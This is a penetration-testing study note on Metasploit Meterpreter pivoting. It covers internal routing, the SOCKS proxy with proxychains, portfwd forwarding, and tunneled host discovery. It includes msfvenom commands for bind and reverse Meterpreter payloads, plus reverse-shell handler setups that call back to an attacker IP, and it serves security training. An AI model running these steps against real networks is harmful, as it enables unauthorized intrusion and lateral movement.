

>[!abstract]+ **Scope**: Meterpreter pivoting and tunneling: Metasploit internal routing (`autoroute`, `route`); SOCKS proxy setup (`auxiliary/server/socks_proxy`) with `proxychains`, local and reverse port forwarding (`portfwd`), payload selection for pivoted exploitation, host discovery through a pivot, and chained multi-hop pivots.
## Meterpreter tunneling

- **Meterpreter tunneling** refers to a set of techniques and tools that allow you to use an existing Meterpreter session on a compromised pivot to route traffic to internal networks otherwise unreachable from your machine.

>[!important] **Prerequisites**: an active Meterpreter session on a pivot that already reaches the internal segment. 

>[!note] Only TCP traffic can traverse Meterpreter tunnels — not ICMP or UDP.

- Metasploit provides three primary mechanisms for pivoting and tunneling through a Meterpreter session:
	- **Internal routing** (`autoroute` / `route`)
		- Adds entries to Metasploit's internal routing table so that Framework modules can reach internal subnets through the session.
		- Doesn't allow external tools (e.g., `curl` or Nmap) to reach the target subnets.
	- **SOCKS proxy** (`auxiliary/server/socks_proxy`) 
		- Exposes Metasploit's internal routes as a local SOCKS proxy. 
		- You can then use `proxychains` to let external tools like Nmap or `curl` reach internal hosts.
	- **Port forwarding** (`portfwd`)
		- Maps individual local TCP ports to specific remote services through the pivot, or creates reverse listeners on the pivot to catch callbacks from deeper targets.

## Internal routing (`autoroute` / `route`)

- Metasploit maintains its own **internal routing table**, separate from your OS kernel routing table. When you add a route, you associate a destination subnet with a specific Meterpreter session ID. Routes tell Metasploit which active session should be used to reach a particular remote subnet.
---

- Display the internal routing table from `msfconsole`:

```bash
route print
```

- Display the compromised host's own routing table from a Meterpreter session:

```bash
route
```

---
- When any Metasploit module targets an IP address in a routed subnet, the Framework intercepts the outbound TCP connection. Instead of sending packets through your default network interface, Metasploit encapsulates the traffic and relays it through the Meterpreter session's encrypted channel.
- The compromised host (the pivot) receives the encapsulated traffic, decapsulates it, and forwards it to the destination on its local network. Response traffic follows the same path in reverse.

>[!note]+ An internal route has two components: a destination subnet and a session.
>```bash
>route add 172.16.5.0 255.255.255.0 2
>```
>- The above command associates the subnet `172.16.5.0/24` with Meterpreter session `2`. 
>- When a compatible module tries to connect to an address such as `172.16.5.19`, Metasploit sends that connection through session `2` rather than directly from your network interface.

>[!important]+ Internal routes affect only network connections created **through the Metasploit Framework**; they don't modify the host OS routing table.
>- Therefore, adding an internal Metasploit route doesn't automatically make external programs (like Nmap or `curl`) use the pivot.
>- These programs use the OS's networking stack and don't follow Metasploit's internal routes. 
>- To route their traffic through the pivot, expose the routes as a **SOCKS proxy** (see [[#SOCKS proxy (auxiliary/server/socksproxy)]]).
### Adding routes (`autoroute` / `route`)

- Two methods add routes to Metasploit:
	- Manually, using the `route` command.
	- Automatically, using the `autoroute` post module.
- Both produce the same result — an entry associating a subnet with a session ID.

>[!tip]+
> - List active Metasploit sessions:
> 
> ```bash
> sessions -l
> ```

#### Adding routes manually

>[`route`](https://www.offsec.com/metasploit-unleashed/msfconsole-commands/#route) is a built-in `msfconsole` command used to manage internal Metasploit routes.

- Add an internal Metasploit route:

```bash
route add <subnet> <netmask> <session>
```

- Route subnet `172.16.5.0/24` through session `2`:

```bash
route add 172.16.5.0 255.255.255.0 2
```

---

- Remove an internal route:

```bash
route remove <subnet> <netmask> <session>
```

- Remove the route for `172.16.5.0/24` on session `2`:

```bash
route remove 172.16.5.0 255.255.255.0 2
```

---

- Print all active routes:

```bash
route print
```

- Remove all internal Metasploit routes:

```bash
route flush
```

| Command | Description |
| :--- | :--- |
| `route add <subnet> <netmask> <session>` | Add an internal Metasploit route. |
| `route remove <subnet> <netmask> <session>` | Remove an internal Metasploit route. |
| `route print` | Display Metasploit's internal routing table. |
| `route flush` | Remove all Metasploit routes. |

#### Using `autoroute`

>`autoroute` is a post-exploitation module (`post/multi/manage/autoroute`) that is used to manage Metasploit's internal routing table.

- Select the module, bind it to a session, set the subnet and netmask, then run it:

```bash
use post/multi/manage/autoroute
set SESSION 2
set SUBNET 172.16.5.0
set NETMASK 255.255.255.0
run
```

| Option    | Description                                       |
| :-------- | :------------------------------------------------ |
| `SESSION` | Meterpreter session to use as the pivot.          |
| `SUBNET`  | Destination subnet to route through the session.  |
| `NETMASK` | Netmask for the subnet (default `255.255.255.0`). |

- Check the resulting route from `msfconsole`:

```bash
route print
```

### Managing routes within a Meterpreter session

- Inside a Meterpreter session, you can use two related to manage routing:
	- **`route`** — shows the **routing table of the compromised host**.
	- **`run autoroute` (or `autoroute`)** — manages Metasploit's **internal routing table** using the current session as the pivot.

- Display the routing table *of the compromised host*:

```bash
route
```

>[!important] Inside a Meterpreter session, `route` displays only the compromised host's routes; `route print` in `msfconsole` displays Metasploit's internal routing table (all active routes).

- Print active routes currently stored in *Metasploit's internal routing table*:

```bash
run autoroute -p
```

- Add a route from the current session to *Metasploit's internal routing table*:

```bash
run autoroute -s 172.16.5.0/24
```

- Delete the route from *Metasploit's internal routing table*:

```bash
run autoroute -d -s 172.16.5.0/24
```

>[!note] Deleting the route doesn't change the compromised host's own OS routing table. It only removes Metasploit's instruction to use that session for the subnet.

| Flag | Description |
| :--- | :--- |
| `-s` | Subnet to add or delete (CIDR or dotted notation). |
| `-n` | Netmask to use when the subnet (supplied with `-s`) is not in CIDR notation. |
| `-p` | Print all active routes in the Metasploit routing table. |
| `-d` | Delete the specified route. |

- Once the route is added, compatible Metasploit modules targeting addresses inside the subnet use the current session as their pivot.

#### Building routes

- Inspect network interfaces on the pivot:

```bash
ipconfig
```

- Inspect the local routing table on the pivot:

```bash
route
```

- If the host reaches an internal subnet, add that subnet to Metasploit:

```bash
run autoroute -s 172.16.5.0/24
```

- Verify the Framework route:

```bash
run autoroute -p
```

#### Adding routes automatically using `autoadd`

- Instead of naming subnets explicitly, you can let `autoroute` inspect the compromised host and add networks reachable through the session automatically — using the `autoadd` `CMD` parameter. 
- **`autoadd`** examines the routing table and network interfaces on the pivot host, identifies accessible networks, and adds corresponding routes to Metasploit's internal routing table. Duplicate routes from additional sessions aren't added.

- From `msfconsole`, select the module, bind a session, set the command mode, then run:

```bash
use post/multi/manage/autoroute
set SESSION 3
set CMD autoadd
run
```

>[!important] `autoadd` is the module's default behavior.

| `CMD` value | Description |
| :--- | :--- |
| `add` | Manually add a route to a specific subnet. |
| `autoadd` | Enumerate interfaces on the pivot and auto-add routes for all discovered subnets. |
| `print` | Display the current Metasploit routing table. |
| `delete` | Remove a previously added route. |

>[!note] `autoroute` and `route` produce identical entries in the internal routing table. `autoroute` is more convenient because `autoadd` discovers subnets automatically. The `route` command gives finer control when you need to target specific subnets or manage routes across multiple sessions.

## SOCKS proxy (`auxiliary/server/socks_proxy`)

- Metasploit's internal routes only work for Framework modules. To use **external tools** (Nmap, `curl`, NetExec, `xfreerdp`, etc.) against internal hosts, expose the routes as a SOCKS proxy.
- The **[`auxiliary/server/socks_proxy`](https://www.rapid7.com/db/modules/auxiliary/server/socks_proxy/)** module starts a SOCKS proxy on your machine that forwards connections through the Metasploit routing table.

>[!important] Routes must exist **before** the SOCKS proxy can forward traffic. Add routes first with `autoroute` or `route`.

>[!note] Metasploit's SOCKS proxy works similarly to dynamic port forwarding (`ssh -D`) in SSH. See [[🛠️ SSH port forwarding#Dynamic SSH port forwarding]].

>[!note] To learn more about SOCKS, see [[🛠️ SOCKS]].

- Start the SOCKS proxy from `msfconsole` and run it as a background job:

```bash
use auxiliary/server/socks_proxy
set VERSION 5
set SRVPORT 1080
set SRVHOST 127.0.0.1
run -j
```

| Option | Parameter | Description |
| :--- | :--- | :--- |
| `VERSION` | `5` | SOCKS protocol version (`5` for SOCKS5, `4a` for SOCKS4a). |
| `SRVPORT` | `1080` | Local TCP port for the SOCKS listener. |
| `SRVHOST` | `127.0.0.1` | Local address to bind the listener to. |
| `-j` | — | Run the module as a background job. |

- Your machine now listens on `127.0.0.1:1080`. Any TCP connection sent to this proxy is routed through the appropriate Meterpreter session based on the destination IP and the internal routing table.

>[!note] Older Metasploit versions used `auxiliary/server/socks4a`. The current module, `auxiliary/server/socks_proxy`, comes with the `VERSION` option to select the protocol version.

### `proxychains`

![[🛠️ SOCKS#proxychains]]
## Port forwarding (`portfwd`)

- Meterpreter's `portfwd` command creates port forwarding rules that map a local TCP port on your machine to a remote service through the pivot. 
- Unlike SOCKS proxying, each `portfwd` rule targets a **specific host and port**.

>[!note] `portfwd` works similarly to local port forwarding (`ssh -L`) in SSH, but operates through an existing Meterpreter session. See [[🛠️ SSH port forwarding#Local SSH port forwarding]].

### Adding local port forwards



- From the Meterpreter session on the pivot, create a local port forward:

```bash
portfwd add -l 8080 -p 80 -r 172.16.5.19
```

- Your machine now listens on `127.0.0.1:8080`. Any connection to that port is forwarded through the session to `172.16.5.19:80`.

| Flag | Description                                                    |
| :--- | :------------------------------------------------------------- |
| `-l` | Local port on your machine to listen on.                       |
| `-p` | Remote port on the destination target.                         |
| `-r` | IP address of the destination target (as seen from the pivot). |

>[!example]+
> - Forward RDP from an internal host:
> ```bash
> portfwd add -l 33389 -p 3389 -r 172.16.5.19
> ```
> - Connect from your machine:
> ```bash
> xfreerdp /v:127.0.0.1:33389 /u:jdoe /p:'passwd123'
> ```

>[!example]+
> - Forward SMB:
> ```bash
> portfwd add -l 4445 -p 445 -r 172.16.5.19
> ```
> - Connect from your machine:
> ```bash
> smbclient -L //127.0.0.1 -p 4445 -U jdoe
> ```

>[!example]+
> - Forward SSH:
> ```bash
> portfwd add -l 2222 -p 22 -r 172.16.5.10
> ```
> - Connect from your machine:
> ```bash
> ssh jdoe@127.0.0.1 -p 2222
> ```

### Adding reverse port forwards

- Reverse port forwarding opens a listener on the **compromised pivot host**. That listener forwards any incoming connections back to your machine. 
- You can use this to catch reverse shells from deeper internal targets (those that can reach the pivot, but can't reach your machine directly).

>[!note] Reverse port forwards work similarly to remote port forwarding (`ssh -R`) in SSH. See [[🛠️ SSH port forwarding#Remote SSH port forwarding]].

- From the Meterpreter session on the pivot, create a reverse port forward:

```bash
portfwd add -R -l 4444 -p 4444 -L 10.10.11.11
```

- The pivot now listens on port `4444`. 
- When an internal target connects to port `4444` on internal pivot's IP address, the connection is relayed back through the Meterpreter channel to poty `4444` on your machine (`10.10.11.11`).

| Flag | Description |
| :--- | :--- |
| `-R` | Enable reverse port forwarding (the pivot listens instead of your machine). |
| `-l` | Port on the pivot that accepts incoming connections. |
| `-p` | Port on your machine (the listener port) that receives the forwarded connection. |
| `-L` | Listener IP address where to forward traffic. |
### Managing port forwarding rules

- List all active rules:

```bash
portfwd list
```

- Delete a specific rule:

```bash
portfwd delete -l 8080 -p 80 -r 172.16.5.10
```

- Remove all rules:

```bash
portfwd flush
```

## Generating payloads for pivoted exploitation

- When you exploit a second target through a pivot, the payload's transport determines how the new session reaches your handler. 
- You have two main options: `bind_tcp` and `reverse_tcp`.
- Choose based on the direction the connection must travel:
	- **`bind_tcp`** — the target opens a listener; your handler connects to that listener through the pivot. The target itself must be able to accept inbound connections
	- **`reverse_tcp`** — the target connects back to a listener on your machine; requires a reverse port forward on the pivot to relay the callback to your handler. Useful when the target can't accept inbound connections but can initiate outbound.

### Using `bind_tcp` payloads

- A `bind_tcp` payload opens a listener on the target host. Your handler connects to the target through the established route.
---


1. Generate the payload:

```bash
msfvenom -p windows/meterpreter/bind_tcp LPORT=4444 -f exe -o bind_payload.exe
```

| Flag    | Description                 |
| :------ | :-------------------------- |
| `-p`    | Payload to generate.        |
| `LPORT` | Port the target listens on. |
| `-f`    | Output format.              |
| `-o`    | Output file.                |

>[!note] Unlike reverse payloads, `bind_tcp` payloads don't require you to specify a destination IP address, because the executable binds locally on the target (on `LPORT`).

 2. Configure the handler on your machine (from `msfconsole`):

```bash
use exploit/multi/handler
set payload windows/meterpreter/bind_tcp
set RHOST 172.16.5.19
set LPORT 4444
exploit
```

- Metasploit connects to `172.16.5.19:4444` through the route (session `1` on the pivot). The new session (session `2`) is established.

>[!important] `bind_tcp` requires the target's listening port to be reachable from the pivot.

### Using `reverse_tcp` payloads through a pivot

- A `reverse_tcp` payload makes the target connect back to a specified address.

---


1. Set up reverse port forwarding on the pivot (from the existing Meterpreter session):

```bash
portfwd add -R -l 4444 -p 4444 -L <attacker_ip_address>
```

2. Generate the payload (set `LHOST` to the pivot's internal IP address reachable from the target):

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.5.1 LPORT=4444 -f exe -o reverse_payload.exe
```

3. Configure the handler on your machine:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.11.11
set LPORT 4444
exploit
```

- When the target executes the payload, it connects to `172.16.5.1:4444` (the pivot). 
- The pivot's reverse port forward relays the connection back through the Meterpreter channel to your handler at `10.10.11.11:4444`.
### Staged vs. stageless payloads

- Payload naming in Metasploit distinguishes staged and stageless payloads by the separator between the transport and the handler:

| Type | Separator | Example | Behavior |
| :--- | :--- | :--- | :--- |
| Staged | Slash `/` | `windows/meterpreter/reverse_tcp` | Small stager connects back, then downloads the full Meterpreter DLL. |
| Stageless | Underscore `_` | `windows/meterpreter_reverse_tcp` | Self-contained binary; no second download needed. |

>[!warning] Staged payloads can fail over unstable or high-latency pivot connections because the second-stage download may time out. Use **stageless payloads** for multi-hop pivots where tunnel reliability is a concern.

>[!tip] Stageless payloads are more reliable over unstable tunnels.

## Discovering hosts through a pivot

- Since ICMP and UDP don't pass through Meterpreter tunnels, you won't be able to use `ping` to scan the target network. Use these alternatives instead:

---

- Run the `ping_sweep` post module from the Meterpreter session (runs directly on the pivot, so ICMP is not tunneled):

```bash
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/24
```

- Run an ARP scan on the local segment (Windows pivot):

```bash
run post/windows/gather/arp_scanner RHOSTS=172.16.5.0/24
```

- Inspect local ARP cache entries directly from the pivot shell (Linux pivot):

```bash
arp -e
```

- Scan target ports using Nmap's TCP connect scan (`-sT`) through `proxychains`:

```bash
proxychains nmap -sT -Pn -n -p 22,80,445,3389 172.16.5.0/24
```

>[!warning] Avoid full subnet sweeps through Meterpreter tunnels. The overhead can destabilize the session. Better, target specific IP ranges and ports.

## References and further reading

- [`Pivoting in Metasploit — Rapid7`](https://docs.metasploit.com/docs/using-metasploit/intermediate/pivoting-in-metasploit.html)
- [`Metasploit Documentation: Pivoting — Rapid7`](https://docs.rapid7.com/metasploit/route/)
- [`Pivoting — Metasploit Unleashed, OffSec`](https://www.offsec.com/metasploit-unleashed/pivoting/)
- [`Portfwd — Metasploit Unleashed, OffSec`](https://www.offsec.com/metasploit-unleashed/portfwd/)
- [`ProxyChains — GitHub`](https://github.com/haad/proxychains)
- [`Pivoting, Tunneling, and Port Forwarding — HTB Academy`](https://academy.hackthebox.com/module/details/158)

- TODO:
	- Chaining pivots
